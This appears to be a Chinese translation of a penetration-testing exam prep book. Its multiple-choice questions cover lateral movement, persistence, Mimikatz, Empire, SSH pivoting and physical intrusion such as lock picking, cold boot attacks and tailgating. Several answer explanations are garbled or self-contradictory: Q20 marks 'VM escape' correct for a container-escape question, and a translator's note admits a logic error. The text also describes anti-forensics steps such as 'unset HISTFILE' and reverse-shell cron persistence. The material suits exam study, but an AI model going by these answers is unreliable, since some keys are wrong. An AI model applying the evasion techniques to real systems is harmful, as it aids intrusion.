**A** , **B** 和 **D** 是错误的。（注：原文此处描述似乎存在逻辑错误或乱码，已按逻辑对齐翻译）

### 20 .**哪个术语指的是允许攻击者逃逸容器的技巧？

### **A.** VM escape

### **B.** VENOM attack

### **C.** Container escape

### **D.** Cloudburst attack

**A** 是正确的。VM escape 允许攻击者逃逸虚拟机并与底层操作系统进行交互。

**B** , **C** 和 **D** 是错误的。**B** 和 **D** 是特定的漏洞或攻击，而不是逃逸容器的通用术语。**C** 是错误的，因为题目询问的是逃逸容器的术语。

### 21 .**哪种原生 Windows 工具可以在端口 5985 和 5986 在目标系统上直接执行 PowerShell 命令和脚本，使其对于攻击者在目标网络或环境中横向移动非常有价值？

### **A.** WinRM

### **B.** WMI

### **C.** PsExec

### **D.** SMB

**A** 是正确的。WinRM 为攻击者提供了远程执行 PowerShell 脚本的方法。它监听端口 5985 和 5986（分别对应 HTTP 和 HTTPS）。注意 WinRM 需要目标系统的管理员权限。

**B** , **C** 和 **D** 是错误的。**B** 是错误的，因为 WMI（Windows 管理规范）通过 135/TCP 协商连接以到达目标系统。**C** 是错误的，因为 PsExec 是一种轻量级的纯命令行工具，用于远程命令执行并通过端口 135/TCP 和 445/TCP 进行通信。**D** 是错误的，因为基于 SMB 的命令执行与 PsExec 命令执行功能等同，通过端口 135/TCP 和 445/TCP 进行通信。

### 22 .**哪种图形远程连接工具是跨平台的、最初由英国剑桥的 Olivetti 研究实验室开发，并可以用于辅助攻击者横向移动和更简单地访问目标系统？

### **A.** RDP

### **B.** VNC

### **C.** Apple Remote Desktop

### **D.** telnet

**B** 是正确的。VNC 是一种跨平台的远程桌面共享协议，最初由剑桥的 Olivetti 研究实验室开发。在渗透测试的背景下，它经常被用于横向移动。


**A**、**C** 和 **D** 是错误的。**A** 是错误的，因为 `RDP`（远程桌面协议）是由微软开发的。如果目标系统允许远程登录，攻击者可以使用 `RDP` 作为横向移动的手段。**C** 是错误的，因为 Apple Remote Desktop（苹果远程桌面）是 Apple 开发的一种专有远程访问工具。对 macOS 系统的远程桌面访问也可以导致横向移动，或者在某些情况下导致权限提升。事实上，macOS High Sierra 中的一个漏洞允许用户在不使用密码的情况下以 root 身份登录。在 Apple 提供紧急补丁之前，用户只需通过反复点击登录按钮即可获得目标系统的 root 权限。**D** 是错误的，因为 `telnet` 是一种不安全的仅限命令行的连接工具，不提供图形化登录会话。

### 23 .

哪种技术是专门为通过 `SSH` 连接传输图形化应用程序数据而开发的？

- **A.** `RSH` 登录
- **B.** 本地端口转发
- **C.** `RDP`
- **D.** X11 服务器转发

**D** 是正确的。`X11` 服务器转发可以允许用户或攻击者将远程服务器的图形化应用程序数据传输到用户的本地桌面。此过程需要一个正在运行的 `X server`（如 `Xming`），并且在用户的 `SSH` 客户端（例如从 Windows 操作系统连接时使用 `PuTTY`）中启用 X11 转发。

**A**、**B** 和 **C** 是错误的。**A** 是错误的，因为 `RSH` 登录是一种远程命令行连接，与 `telnet` 的相似之处在于它是未加密的。如果该用户存在配置恰当的 `rhosts` 文件，`RSH` 允许在没有用户名或密码的情况下登录。**B** 是错误的，因为本地端口转发用于通过 `SSH` 将本地端口静态地连接到远程 IP 地址和端口。由于问题问的是一种专门为图形界面传输设计的技术，因此这是错误的。**C** 是错误的，因为 `RDP` 完全没有利用 `SSH`，而是微软开发的一种专有协议。

### 24 .

基于 `-` 的持久化依赖于对操作系统后台运行的应用程序进行修改；这些程序通常由 *nix* 操作系统中的 `init` 进程以及 Windows 环境中的 `Service Control Manager`（服务管理器）处理。

- **A.** 创建新用户
- **B.** `Daemon`（守护进程）
- **C.** 安装 `SSH` 公钥
- **D.** 创建或修改计划任务/作业

**B** 是正确的。这里描述的持久化技术是基于守护进程的持久化。通过修改以 root 或管理员用户运行的服务，攻击者可以确保在目标系统运行时，始终有一个可用的远程 shell。

**A**、**C** 和 **D** 是错误的。**A** 是错误的，因为创建新用户仅仅是滥用了 root 和管理员账户的权限来创建一个新用户。**C** 是错误的，因为它依赖于对 `SSH` 中 `.authorized_keys` 功能的滥用。如果带有 `SSH` 服务器的目标系统允许密钥登录，用户可以通过将其公 `SSH` 密钥（通常位于 `~/.ssh/id_rsa.pub`）添加到目标系统上相应的 `authorized_keys` 文件，无需输入密码即可以指定账户登录。**D** 是错误的，因为通过计划任务或计划作业实现的持久化发生在攻击者创建一个在启动时运行的恶意任务时，通常通过 Windows 中的 `schtasks` 工具或通过 *nix* 环境中的 `crontab` 实现。

### 25 .

哪种实现持久化的方法依赖于向目标系统上的现有应用程序中注入恶意代码，并利用授权用户对该应用程序的信任？

- **A.** 创建计划任务
- **B.** 创建新用户
- **C.** 基于 `Daemon` 的
- **D.** `Trojan`（木马）

**D** 是正确的。这里描述的技术是创建木马载荷（payload）。

**A**、**B** 和 **C** 是错误的。**A** 是错误的，因为基于计划任务的持久化发生在攻击者创建一个在启动时运行的恶意任务时，通常通过 Windows 中的 `schtasks` 工具或通过 *nix* 环境中的 `crontab` 实现。**B** 是错误的，因为创建新用户仅仅是滥用了 root 和管理员账户的权限来创建一个新用户。**C** 是错误的，因为基于守护进程的持久化发生在攻击者修改以 root 或管理员用户运行的服务时。

### 26 .

在渗透测试期间获取 `Linux` 系统访问权限后，哪些是良好的实践？（选择两项）

- **A.** 运行 `unset HISTFILE` 命令。
- **B.** 配置 `cron job` 每天调用攻击服务器。
- **C.** 运行 `sudo -l` 命令。
- **D.** 移除任何文件或痕迹。

**A** 和 **D** 是正确的。运行 `unset HISTFILE` 命令可以防止当前会话的命令被记录。移除文件或痕迹也是一种良好的做法，因为许多异常名称的文件会引起注意。

**B** 和 **C** 是错误的。**B** 是错误的，因为配置定时任务连接攻击服务器是为了建立持久化，而不是规避检测。**C** 是错误的，因为检查 `sudo -l` 是在尝试提升权限时常用的命令。

### 27 .

哪种工具最初是为了作者学习 C 开发而编写的，能够提取明文密码和 Kerberos 票据，还可以执行哈希传递或票据攻击以及创建黄金票据？

- **A.** `Patator`
- **B.** `Peach`
- **C.** `SonarQube`
- **D.** `Mimikatz`

**D** 是正确的。`Mimikatz` 是一种能够从内存中提取密码和 Kerberos 票据，还可以执行哈希传递或票据攻击，并构建黄金票据和枚举系统令牌。`Mimikatz` 最初是由 Benjamin Delpy 开发的，用于 `lsadump` 模块中的组件。

**A**、**B** 和 **C** 是错误的。**A** 是错误的，因为 `Patator` 是一种多协议暴力破解工具，能够攻击 FTP、SSH、SMTP、HTTP/HTTPS 以及其他许多协议。**B** 是错误的，因为 `Peach` 是一个专用的模糊平台，旨在压力测试应用程序以识别潜在的软件漏洞。**C** 是错误的，因为 `SonarQube` 是一个开源软件质量测试套件，支持 20 多种语言，集成到传统的 DevOps 环境中，并对问题的发现和解决进行长期跟踪。

### 28 .

哪种工具是专注于 Java 语言的静态代码分析器，最初由马里兰大学开发？

- **A.** `DynamoRIO`
- **B.** `Findbugs`
- **C.** `YASCA`
- **D.** `AFL`


**B** 是正确的。这里描述的工具是 Findbugs——或者说它是现在为人知的 Spotbugs。Findbugs 是由马里兰大学专门为 Java 应用开发的静态代码分析器。Spotbugs 自称为 Findbugs 的精神继承者，而 Findbugs 可以视为一个已弃的产品，最后一次更新于 2015 年。然而，Spotbugs 目前仍在开发中，并且在其 github 页面上拥有非常活跃的社区（[`github.com/spotbugs/spotbugs`](https://github.com/spotbugs/spotbugs)）。

**A**、**C** 和 **D** 是错误的。**A** 是错误的，因为 DynamoRIO 是一种动态代码分析工具，可以在应用程序运行时对应用代码执行实时转换。**C** 是错误的，因为 YASCA（Yet Another Static Code Analyzer 的缩写）是一个开源源码分析工具，它集成了其他几款静态分析工具（如 PMD 和 Findbugs）的组件。**D** 是错误的，因为 AFL（American Fuzzy Lop 的缩写）是一种面向安全的模糊测试器，它使用独特的算法来发现可以触发被测试二进制文件意外行为和内部状态的测试用例。

### 29 下列哪种技术允许攻击者以最小努力几乎瞬间地与目标 Linux 系统重新建立加密通信？

**A.** 在命令提示符中通过 `netcat` 或 `ncat` 设置一个绑定 shell（bound shell）并将其发送到后台。

**B.** 配置一个 cron 任务（cron job），每天中午向攻击者回传一个 `netcat` 反向 shell（reverse shell）。

**C.** 将攻击系统的公 SSH 密钥安装到目标系统用户的 `.ssh/authorized_keys` 文件中。

**D.** 修改 `/etc/init.d` 中现有的启动脚本，包含一个绑定的 `netcat` shell，确保在目标系统启动时任何时候都有可用 shell。

**C** 是正确的。在用户的 `.authorized_keys` 文件中安装公共 SSH 密钥是确保在入侵目标系统后保持连接持久性的简单且有效的方法。作为额外收益，使用 SSH 作为连接协议可以确保渗透测试人员的流量不仅经过加密，而且与其他合法用户的流量混合，这是绑定到 `4444` 端口的 `netcat` 监听器无法到的。

**A**、**B** 和 **D** 是错误的。虽然这些技术都是获取目标系统 shell 访问的可行方法，但 **A** 缺乏持久性且加密——简单的重启就会杀死后台进程，导致渗透测试人员从零开始——而 **B** 和 **D** 虽然建立了持久性（因为连接媒介在重启后依然存在），但它们都没有利用任何形式的加密，因此这些答案也是错误的。

### 30 下列哪种 SSH 的用法将建立一个作为应用层网络代理的连接？假设攻击者的 IP 为 10.1.2.2，受害者的 IP 为 10.1.2.3。

**A.** `ssh 10.1.2.2 -L 8800:10.1.2.2:80`

**B.** `ssh -D 8888 root@10.1.2.3`

**C.** `ssh 10.1.2.2 -R 8800:127.0.0.1:8080`

**D.** `ssh root@10.1.2.3`

**B** 是正确的。`SSH` 中的 `-D` 标志用于建立动态代理（dynamic proxy）；一旦按照书所示实例化该连接，渗透测试人员就可以通过 `8888` 代理其所有网络流量，从而对从接收 SSH 连接的受损系统可见但在攻击者系统上不可的系统运行命令。该工具极其强大，因为它极大提高了渗透测试人员在网络中进行跳转（pivot）并深层渗透目标组织网络的能力。

**A**、**C** 和 **D** 是错误的。**A** 是错误的，因为 `-L` 表示本地端口转发（local port forwarding）。**C** 是错误的，因为 `-R` 表示远程端口转发（remote port forwarding）。**D** 是错误的，因为它仅仅是建立了一个 shell 连接。

### 31 在建立第 30 题所述的 SSH 连接后，可以使用哪个工具进行代理？

**A.** `Ncat`

**B.** `OWASP ZAP`

**C.** `Burp Suite`

**D.** `Proxychains`

**D** 是正确的。`Proxychains` 允许渗透测试人员通过 SOCKS 代理（例如通过 SSH 创建的）代理流量。

### 32 哪种命令行工具作为 Offensive Security 提供的 Exploit Database 漏洞的前端搜索工具？

**A.** `Powersploit`

**B.** `Impacket`

**C.** `Responder`

**D.** `searchsploit`

**D** 是正确的。描述的工具是 `searchsploit`。渗透测试人员应该非常熟悉 `searchsploit`，因为快速搜索、识别和获取漏洞代码的能力是渗透测试中极强大的倍增器。

### 33 哪个框架旨在利用 PowerShell 在 Windows 环境中进行横向移动、权限提升并执行其他后后活动？

**A.** `Powersploit`

**B.** `Mimikatz`


### C. Empire
### D. UnmanagedPowerShell

 **C** 正确。所描述的框架是 Empire。Empire 依赖于在目标系统上的代理（Windows 使用 PowerShell 2.0；Linux 和 macOS 使用 Python 2.6/2.7），这些代理被用于在不调用 PowerShell 的情况下运行 PowerShell 代理，并提供了键盘记录、Mimikatz 以及其他各种功能模块。Empire 集成了其他开源项目的组件，并借此呈现出许多简单、有效的后渗透工具。Empire 可以通过 Empire Project 的 github 页面（[`github.com/EmpireProject/Empire`](https://github.com/EmpireProject/Empire) ）获取。

 **A**、**B** 和 **D** 错误。**A** 是错误的，因为 Powersploit 是一组利用 PowerShell 进行横向移动和权限提升的后渗透脚本。**B** 是错误的，因为 Mimikatz 是一个基于 C 语言的工具，能够从内存中提取密码和 Kerberos 票据，执行哈希传递（pass-the-hash）或票据传递（pass-the-ticket）攻击，以及构建黄金票据（golden tickets）。**D** 是错误的，因为 UnmanagedPowerShell 是一个允许攻击者从未托管进程执行 PowerShell 的应用程序。它可以通过 github 页面（[`github.com/leechristensen/UnmanagedPowerShell`](https://github.com/leechristensen/UnmanagedPowerShell) ）获取，由 Lee Christensen 提供。

### 34. 哪种攻击技术可以在 Windows 环境中用于中继或权限提升，并有效绕过认证的密码要求？

**A.** 哈希传递 (Passing the hash)
**B.** 计划任务滥用
**C.** 反编译
**D.** SSH 动态代理

 **A** 正确。所描述的技术是哈希传递。Windows 处理密码的一种特殊机制使得直接将加密哈希发送到认证请求中是可行的，而不需要明文密码。

 **B**、**C** 和 **D** 错误。**B** 是错误的，因为计划任务滥用通常发生在当作为计划任务一部分运行的脚本或 `.bat` 文件对全用户可写时；滥用全局可写的文件不需要密码或 NTLM 哈希。**C** 是错误的，反编译是从编译后的可执行形式获取应用程序或工具源代码的过程。虽然它在对应用程序进行模糊测试（fuzzing）或攻击的过程中非常有用，但它并不能绕过密码要求，而且不仅适用于 Windows 系统。**D** 是错误的，因为 SSH 动态代理提供了渗透测试人员大部分通过网络进行中继并深入渗透目标组织网络的能力，但它不会直接提供对给定系统的 shell 访问。

### 35. 考虑以下 Metasploit 模块。



假设预填充项目对于目标主机有效，攻击者在能够运行此模块之前需要哪些选项或多个选项？（多选）

**A.** VHOST
**B.** 代理 (Proxies)
**C.** RHOST
**D.** SSL

 **C** 正确。这里唯一缺失的组件是 `RHOST` 指定，它指示要进行攻击利用的远程主机。

 **A**、**B** 和 **D** 错误。所有这些组件要么是不需要的，要么它们的默认值是有效的。

### 36. 考虑在此执行的 msfvenom 命令。



根据输出，此 shellcode 使用了哪种编码器 (encoder)?

**A.** Linux
**B.** x86/shikata_ga_nai
**C.** sh
**D.** linux/x86/shell/reverse_tcp

 **B** 正确。使用的编码器是 `shikata_ga_nai`，它擅长处理坏字符（bad characters）并掩盖其处理的 shellcode 的静态签名。

 **A**、**C** 和 **D** 错误。**A** 是错误的，因为 `--platform` 标志表示 payload 为 Linux 生成，与编码器的使用无关。**C** 是错误的，因为 `--format` 标志表示 `msfvenom` 应该输出可由 `/bin/sh` 读取的字符串 shellcode。**D** 是错误的，因为 `--payload` 标志决定了要生成的特定 shellcode 类型——在这种情况下，是一个标准的 TCP shell。

### 37. 考虑以下简短脚本。



按编写运行此代码的预期输出是什么？

**A.** 失败；ValueError。
**B.** 执行成功；打印了两次“foo”。
**C.** 失败；OSError。
**D.** 执行成功；打印了两次字符“x”。

 **A** 正确。所编写的代码尝试对 `x` 使用 `int()` 方法，而 `x` 是一个由字符串 `"foo"` 组成的变量。会导致 `ValueError` 并停止执行。

 **B**、**C** 和 **D** 错误。**B** 是错误的，因为这种行为可以通过删除代码行 `x = int(x)` 或将其替换为 `x = str(x)` 来触发。**C** 是错误的，因为在操作系统层面之外不会预期 `OSError`。**D** 是错误的，原因有二：第一，`x` 被定义为字符串 `"foo"`；其次，按编写，此代码将尝试运行 `int()` 方法。

### 38. 考虑此修改后的 Python 脚本。


如果用户输入字符串“foo”，此脚本的预期行为是什么？

**A.** 执行成功；脚本打印“foo.”
**B.** 失败；脚本打印“Oops, we caught an error: an integer required.”
**C.** 失败；脚本打印“Oops, we caught an error: invalid literal for int() base 10: 'foo’.”
**D.** 执行成功；脚本打印“str(foo).”

 **C** 正确。通过 `try` 和 `except` 块添加的错误处理将产生 B 和 C 所示的错误信息。考虑到实际异常将打印到终端，C 是正确的选择。

 **A**、**B** 和 **D** 错误。**A** 是错误的，因为脚本仍然需要整数。输入整数以外的任何内容在编写的情况下都会产生错误。**B** 是错误的，因为那里呈现的错误信息与脚本编写的不符。**D** 是错误的，因为 `print` 命令使用字符串拼接来打印“You entered”以及由用户输入的字符串。在 `print` 语句之前调用的 `int()` 方法确保了传递给脚本的是整数。

### 39. 在 38 题的脚本中，如果用户输入字符串“1234”，预期行为是什么？

**A.** 执行成功；脚本打印“You entered str(1234).”
**B.** 失败；TypeError（需要 float）。
**C.** 失败；ValueError（invalid literal for int()）。
**D.** 执行成功；脚本打印“You entered 1234。”

 **D** 正确。用户输入“1234”后，脚本将使用 `int()` 方法对其进行测试，然后打印“You entered”，随后是格式化为字符串的用户输入在这里必须调用 `str()` 方法，因为在 Python 中无法将 `str` 对象与 `int` 对象拼接。


 `A`、`B` 和 `C` 是错误的。`A` 错误是因为脚本并没有将 `str(x)` 视为要打印的字符串本身，而是取其输出并将其连接到该行之前的字符串片段：`"You entered "`。`B` 和 `C` 错误是因为按照目前的编写的脚本，当用户在提示符处输入“1234”时不会报错。

**40.** 请考虑以下 Python 脚本。



执行此脚本的预期行为是什么？

**A.** 执行成功；字符串“one”、“two”、“three”和“go”都会在各自的行打印，每行之间间隔一分钟。

**B.** 执行成功；字符串“one”、“two”、“three”和“go”都会在各自的行打印，每行之间间隔一秒。

**C.** 失败；出现 `ValueError(invalid literal for int())`。

**D.** 执行成功；字符串“one”、“two”、“three”和“go”全部一次打印在同一行。

 `B` 是正确的。此脚本使用了 Python 中称为“列表”（list）的数据结构——其他语言可能对这种数据结构有不同的名称。列表是对象的有序序列，这些对象在单个变量声明下被统称为列表。列表的单个元素并不需要是相同类型；可以使用字符串、整数和其他数据类型形成列表。该列表被输入到 `try` 块中的 `for` 循环中，随后 `Pyton` 会遍历列表，将每个元素的内容作为字符串打印出来，并在每次迭代之间等待一秒。通过 `time` 模块导入的 `sleep` 方法接收一个数字作为睡眠的秒数，而不是分钟数。

 `A`、`C` 和 `D` 是错误的。`A` 是错误的，尽管如果将 `time.sleep()` 调用更改为 `time.sleep(60)`，它就可能是对的。`C` 是错误的，因为列表中没有向脚本传递任何数字或整数——即使传递了，它们在打印之前也会通过 `str()` 方法全部转换为字符串。`D` 是错误的，因为所有字符串都是在新的行打印的；这是在 Python 中遍历列表或其他数据结构时的正常行为。

***

# 第 11 章

## 物理渗透测试

本章包含关于以下主题的问题：

• 本地主机漏洞的利用
• 与设施相关的物理安全攻击

虽然网络分段和操作系统加固是保护知识产权和确保企业安全的关键组成，但组织不能忽视物理安全。除了尾随（tailgating）和伪装渗透设施（pretexted facility infiltration）等社会工程部分外，组织还必须考虑锁的选择（磁锁和弹子锁）、是否实施围栏或安全检查站等设施入口，甚至面对翻找垃圾（dumpster diving）等不显眼的风险。如果组织的物理防御缺乏阻止有心之之渗透测试者的深度，组织可能会受到多种攻击，从而导致关键数据的泄露、更改或破坏。正因如此，全面的渗透测试将包括对整体物理安全态的评估。

本章将重点关注旨在获取建筑或其他区域未经授权的攻击和渗透方法，并进一步说明当攻击者能够物理访问主机系统时可能产生的数据风险。

***

### 问答

**1.** 哪种开锁技术是通过在调整扭矩扳压力的同时，快速反复地在筒内的弹子上往复拨动？

**A.** 双球法
**B.** 单销钉法
**C.** 扫插法
**D.** Bogota

**2.** 哪种技术范围允许锁锁匠和物理渗透测试者在完全不操作锁的情况下解除锁的锁舌机构，例如使用 slim jim 打开车门，或使用薄金属片拨开挂锁？

**A.** 复制钥匙
**B.** 绕过锁 (Lock bypass)
**C.** 单销钉法
**D.** 弹跳法 (Bumping)

**3.** 哪种加密侧信道攻击用于从操作系统检索加密密钥或其他数据残留，它通过硬重启目标系统并加载由攻击者控制的轻量级操作系统来实现，并将系统 RAM 的预启动内容写入文件以便稍后解析？

**A.** 冷启动攻击 (Cold boot attack)
**B.** 计时攻击 (Timing attack)
**C.** 重放攻击
**D.** 功耗监控攻击

**4.** 哪种物理硬件标准的设计允许制造商连接到嵌入式系统和电路板以进行调试和其他测试，但攻击者或渗透测试者可以利用它获取物理访问设备的 shell 权限？

**A.** JTAG
**B.** 9 串口
**C.** USB-c
**D.** USB 3.0

**5.** 哪种系统访问方法通常用于系统管理员与锁定或网络无响应的系统交互，但物理靠近系统的攻击者经常利用重置密码，例如通过重启 Linux 进入单用户模式？

**A.** JTAG
**B.** 多模光
**C.** IPMI
**D.** 串口控制 (Serial console)

**6.** 哪种用于物理渗透测试的技术旨在获取安全区域的未经授权访问，通常是利用合法员工的帮助性？

**A.** 窥视 (Shoulder surfing)
**B.** 伪装 (Pretexting)
**C.** 尾随 (Tailgating)
**D.** 水蛭攻击

**7.** 哪种物理渗透测试实践用于访问被隔离的区域，并在广义上描述了完全绕过访问控制的方法？

**A.** 破门 (Gatecrashing)
**B.** 翻围栏
**C.** 开锁
**D.** 留门 (Backdooring)

**8.** 搜索目标垃圾的习惯，以希望在渗透测试期间发现有价值的信息，例如密码、用户名或有助于建立物理渗透测试伪装的信息，这种做法被称为？

**A.** 翻找垃圾 (Dumpster diving)
**B.** 尾随
**C.** 弹跳法
**D.** 水蛭攻击

**9.** 物理环境中用于深度防御的许多设备依赖于自动检测系统。以下哪种方法是渗透测试者尝试绕过温度传感器的最佳方式？

**A.** 用薄纸板缓慢地遮住传感器
**B.** 切断传感器设备的电源
**C.** 让同伴用二氧化碳灭火器喷射渗透测试者，利用喷射流掩盖其热特征以便有足够的时间穿过传感器
**D.** 携带聚苯烯板或其他隔缘材料来阻挡扫描器的渗透测试者的身体

**10.** 哪种渗透测试技术使用高增益天线从员工的 RFID 访问卡中提取信息，随后可以将信息复制到空卡供渗透测试者使用？

**A.** 证书克隆 (Badge cloning)
**B.** 重放攻击
**C.** 伪造孪生 (Evil twin)


### D. 窥视攻击

**[1].** 哪种物理安全机制通过使用多组门作为访问控制点，既能防止未经授权访问边界，又能限制在通过第一道门后试图突破安全的人员？

**A.** 门禁扫描器
**B.** 禁闭室 (Mantrap)
**C.** 生物识别阅读器
**D.** 弹锁

**[12].** 哪种物理安全机制在物理渗透测试场景引入了人为因素，并且是在开始物理渗透测试任务之前建立可靠性理由（pretext）的众多原因之一？

**A.** 运动探测器
**B.** 安保人员
**C.** 围栏
**D.** 第三方硬件托管

### 快速答案对照

**[1].** C
**[2].** B
**[3].** A
**[4].** A
**[5].** D
**[6].** C
**[7].** B
**[8].** A
**[9].** A
**[10].** A
**[11].** B
**[12].** B

### 深度解析

**[1].** 哪种开锁技术是通过在调整扭矩扳手压力的同时，快速反复地将拨子在弹子销钉上来回移动来完成的？

**A.** 双球法
**B.** 单销拨法
**C.** 扫拨法 (Scrubbing)
**D.** Bogota

 **C** 正确。扫拨法（Scrubbing），有时被称为“raking”，是描述的这种开锁技术。

 **A**、**B** 和 **D** 错误。**A** 错误是因为双球是一种特定的拨针类型，而不是一种开锁技术。**B** 错误是因为单销拨法是一种较慢、更有条理的方法，它根据扭矩扳手施加压力时转子中的卡住情况，针对单个销钉进行拨动。**D** 错误，因为“Bogota”指的是一种特定的拨针，它有三个朝上的凸起，形状类似于字母 W。

**[2].** 哪种技术范围允许锁匠和渗透测试人员在完全不操作锁的情况下解除锁的锁定机构，例如通过 slim jim 开启门或使用薄金属插片拨开锁舌？

**A.** 复制钥匙
**B.** 绕过锁 (Lock bypass)
**C.** 单销拨法
**D.** 弹跳法 (Bumping)

 **B** 正确。绕过锁是指任何不以预期或典型方式（例如，不使用钥匙或输入代码）接触而破解锁的技术或实践。绕过锁的示例包括使用 slim jim 开启门（在较新的型号上可行性较低）、使用金属插片解除组合锁的锁舌，或使用信用卡滑动开锁。

 **A**、**C** 和 **D** 错误。**A** 错误是因为复制钥匙必然意味着锁是按预期意图使用的，而不是被绕过。**C** 错误是因为单销拨法是一种缓慢、有条理的方法，根据扭矩扳手施加压力时转子中的卡住情况针对单个销钉进行拨动。由于锁定机构被直接触发，这不属于绕过锁技术。**D** 错误是因为“弹跳法”是一种依赖于使用特制弹钥匙（bump keys）和称为锤子的工具撞击转子的开锁技术。

**[3].** 哪种加密侧信道攻击用于从操作系统检索加密密钥或其他数据残留，并通过重启目标系统并加载由攻击者控制的轻量级操作系统来实现，随后将 RAM 的预启动内容写入文件中进行解析？

**A.** 冷启动攻击 (Cold boot attack)
**B.** 计时攻击
**C.** 重放攻击
**D.** 功率监控攻击

 **A** 正确。冷启动攻击利用 RAM 易失性中的微小延迟，这种延迟会导致数据在重启后仍可恢复。虽然 RAM 本质上是易失的（即它应该迅速消失），但测试观察到数据可以从几秒到几分钟内的 RAM 模块中恢复。

 **B**、**C** 和 **D** 错误。**B** 错误是因为计时攻击是基于测量某些计算完成所需时间的侧信道攻击；简单来说，由于所有计算都需要时间，且所需时间随输入而异，攻击者可以观察其想要收集的信息的完成时间，并将这些周期与已知值进行比较。**C** 错误是因为重放攻击发生在攻击者能够在网络流量中嗅获用户密码哈希值时，随后可以使用其伪装该用户发送请求。此外，重放攻击不是侧信道攻击方法。**D** 错误是因为功率监控攻击是侧信道攻击，它通过对功耗进行高度详细的分析来确定位级加密密钥的内容，因为功耗峰值及其持续时间与处理的是 1 还是 0 相关。

**[4].** 哪种物理硬件标准旨在允许制造商连接到完成的嵌入式系统和打印电路板以便于调试和其他测试，但可以被攻击者或渗透测试人员利用来获取其物理访问的设备信息或 shell 权限？

**A.** JTAG
**B.** 9 针串口
**C.** USB-c
**D.** USB 3.0

 **A** 正确。JTAG（以制定该标准的联合测试动作小组命名）是一种 IEEE 标准，定义了用于调试和其他测试的物理硬件连接手段。

 **B**、**C** 和 **D** 错误。**B** 错误是因为 9 针串口连接（使用 DE-9 接口）是用于与各种设备（如调制解调器或终端）传输信息的通信接口，从调试角度没有用途。**C** 和 **D** 错误是因为 USB 接口是新的数据传输端口，也可以提供电源。虽然在某些情况下 USB 连接用于调试（例如许多安卓设备），但 USB 设计并非设计用于提供硬件调试功能。

**[5].** 哪种系统访问方法通常供系统管理员用于与网络锁死或无响应的系统交互，但通常可以被物理靠近系统的攻击者利用来获取信息或重置系统密码，例如通过重启 Linux 服务器进入单用户模式？

**A.** JTAG
**B.** 多模光纤
**C.** IPMI
**D.** 串口控制台 (Serial console)


**D**正确。串行控制连接用于在服务器与另一个系统之间建立直接的对点连接。在实践中，这通常意味着当系统无法通过标准网络访问时，使用串行连接对系统进行故障排除。

**A**、**B** 和 **C** 错误。**A** 是错误的，因为 `JTAG` 是一个 IEEE 标准，定义了用于物理硬件进行调试和其他测试的物理硬件连接方式。**B** 是错误的，因为多模光纤是一种使用光脉冲传输数据的物理连接介质。**C** 是错误的，因为 `IPMI`（智能平台接口）是一套用于系统控制台和子系统的规范，便于系统管理（如远程访问）和对单个主机详情的监控。

### 6. 渗透测试中使用的哪种技术旨在未经授权访问受保护的区域，通常是利用员工的乐于助人或善良？

- **A.** 窥视 (Shoulder surfing)
- **B.** 伪装 (Pretexting)
- **C.** 尾随 (Tailgating)
- **D.** 水坑攻击 (Waterholing)

**C**正确。所描述的技术是 `tailgating`（尾随），用于在授权人员合法打开访问点（例如通过刷 `RFID` 标志来解除磁性门锁）后进入设施。

**A**、**B** 和 **D** 错误。**A** 是错误的，因为 `shoulder surfing`（窥窥视）本质上是为了收集敏感信息而对个人进行的隐蔽观察。这通常指偷看电脑显示器或移动设备，但也适用于观察个人输入代码或写下敏感信息。**B** 是错误的，因为 `pretexting`（伪装）是在社会工程活动中假设的人格设定，无论是面对面、电话还是电子邮件。它的核心是为渗透测试人员提供一个理由——借口——以便其能够出现在某个地点或请求某些东西。**D** 是错误的，因为水坑攻击是使用内部受信任的站点来承载恶意载荷。

